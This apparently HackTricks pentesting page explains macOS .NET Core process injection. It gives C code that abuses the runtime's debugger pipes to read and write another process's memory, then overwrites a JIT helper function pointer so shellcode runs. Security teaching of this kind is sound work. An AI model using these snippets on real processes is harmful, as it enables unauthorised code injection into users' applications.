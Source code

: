 # macOS .Net Applications Injection

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## .NET Core Debugging <a href="#net-core-debugging" id="net-core-debugging"></a>

### **Stablish a debugging session** <a href="#net-core-debugging" id="net-core-debugging"></a>

[**dbgtransportsession.cpp**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp) is responsible for handling debugger to debugee **communication**.\
It creates a 2 of names pipes per .Net process in [dbgtransportsession.cpp#L127](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L127) by calling [twowaypipe.cpp#L27](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/debug-pal/unix/twowaypipe.cpp#L27) (one will end in **`-in`** and the other in **`-out`** and the rest of the name will be the same).

So, if you go to the users **`$TMPDIR`** you will be able to find **debugging fifos** you could use to debug .Net applications:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The function [**DbgTransportSession::TransportWorker**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L1259) will handle the communication from a debugger.

The first thing a debugger is required to do is to **create a new debugging session**. This is done by **sending a message via the `out` pipe** beginning with a `MessageHeader` struct, which we can grab from the .NET source:

```c
struct MessageHeader
{
    MessageType   m_eType;        // Type of message this is
    DWORD         m_cbDataBlock;  // Size of data block that immediately follows this header (can be zero)
    DWORD         m_dwId;         // Message ID assigned by the sender of this message
    DWORD         m_dwReplyId;    // Message ID that this is a reply to (used by messages such as MT_GetDCB)
    DWORD         m_dwLastSeenId; // Message ID last seen by sender (receiver can discard up to here from send queue)
    DWORD         m_dwReserved;   // Reserved for future expansion (must be initialized to zero and
                                            // never read)
        union {
            struct {
                DWORD         m_dwMajorVersion;   // Protocol version requested/accepted
                DWORD         m_dwMinorVersion;
            } VersionInfo;
          ...
        } TypeSpecificData;

    BYTE                    m_sMustBeZero[8];
}
```

In the case of a new session request, this struct is populated as follows:

```c
static const DWORD kCurrentMajorVersion = 2;
static const DWORD kCurrentMinorVersion = 0;

// Set the message type (in this case, we're establishing a session)
sSendHeader.m_eType = MT_SessionRequest;

// Set the version
sSendHeader.TypeSpecificData.VersionInfo.m_dwMajorVersion = kCurrentMajorVersion;
sSendHeader.TypeSpecificData.VersionInfo.m_dwMinorVersion = kCurrentMinorVersion;

// Finally set the number of bytes which follow this header
sSendHeader.m_cbDataBlock = sizeof(SessionRequestData);
```

Once constructed, we **send this over to the target** using the `write` syscall:

```c
write(wr, &sSendHeader, sizeof(MessageHeader));
```

Following our header, we need to send over a `sessionRequestData` struct, which contains a GUID to identify our session:

```c
// All '9' is a GUID.. right??
memset(&sDataBlock.m_sSessionID, 9, sizeof(SessionRequestData));

// Send over the session request data
write(wr, &sDataBlock, sizeof(SessionRequestData));
```

Upon sending over our session request, we **read from the `out` pipe a header** that will indicate **if** our request to establish whether a debugger session has been **successful** or not:

```c
read(rd, &sReceiveHeader, sizeof(MessageHeader));
```

### Read Memory

With a debugging sessions stablished it's possible to **read memory** using the message type [`MT_ReadMemory`](https://github.com/dotnet/runtime/blob/f3a45a91441cf938765bafc795cbf4885cad8800/src/coreclr/src/debug/shared/dbgtransportsession.cpp#L1896). To read some memory the main code needed would be:

```c
bool readMemory(void *addr, int len, unsigned char **output) {

    *output = (unsigned char *)malloc(len);
    if (*output == NULL) {
        return false;
    }

    sSendHeader.m_dwId++; // We increment this for each request
    sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
    sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
    sSendHeader.m_eType = MT_ReadMemory; // The type of request we are making
    sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to read from
    sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
    sSendHeader.m_cbDataBlock = 0;

    // Write the header
    if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
        return false;
    }

    // Read the response header
    if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
        return false;
    }

    // Make sure that memory could be read before we attempt to read further
    if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
        return false;
    }

    memset(*output, 0, len);
    
    // Read the memory from the debugee
    if (read(rd, *output, sReceiveHeader.m_cbDataBlock) < 0) {
        return false;
    }

    return true;
}
```

The proof of concept (POC) code found [here](https://gist.github.com/xpn/95eefc14918998853f6e0ab48d9f7b0b).

### Write memory

```c
bool writeMemory(void *addr, int len, unsigned char *input) {

  sSendHeader.m_dwId++; // We increment this for each request
  sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
  sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
  sSendHeader.m_eType = MT_WriteMemory; // The type of request we are making
  sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to write to
  sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
  sSendHeader.m_cbDataBlock = len;

  // Write the header
  if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
      return false;
  }

  // Write the data
  if (write(wr, input, len) < 0) {
      return false;
  }

  // Read the response header
  if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
      return false;
  }

  // Ensure our memory write was successful
  if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
      return false;
  }

  return true;

}
```

The POC code used to do this can be found [here](https://gist.github.com/xpn/7c3040a7398808747e158a25745380a5).

### .NET Core Code execution <a href="#net-core-code-execution" id="net-core-code-execution"></a>

The first thing is to identify for example a memory region with **`rwx`** running to save the shellcode to run. This can be easily done with:

```bash
vmmap -pages [pid]
vmmap -pages 35829 | grep "rwx/rwx"
```

Then in order to trigger the execution it would be needed to know some place where a function pointer is stored to overwrite it. It's possible to overwrite a pointer within the **Dynamic Function Table (DFT)**, which is used by the .NET Core runtime to provide helper functions for JIT compilation. A list of supported function pointers can be found within [`jithelpers.h`](https://github.com/dotnet/runtime/blob/6072e4d3a7a2a1493f514cdf4be75a3d56580e84/src/coreclr/src/inc/jithelpers.h).

In x64 versions this is straightforward using the mimikatz-esque **signature hunting** technique to search through **`libcorclr.dll`** for a reference to the symbol **`_hlpDynamicFuncTable`**, which we can dereference:

<figure><img src="../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

All that is left to do is to find an address from which to start our signature search. To do this, we leverage another exposed debugger function, **`MT_GetDCB`**. This returns a number of useful bits of information on the target process, but for our case, we are interested in a field returned containing the **address of a helper function**, **`m_helperRemoteStartAddr`**. Using this address, we know just **where `libcorclr.dll` is located** within the target process memory and we can start our search for the DFT.

Knowing this address it's possible to overwrite the function pointer with our shellcodes one.

The full POC code used to inject into PowerShell can be found [here](https://gist.github.com/xpn/b427998c8b3924ab1d63c89d273734b6).

## References

* This technique was taken from [https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/](https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
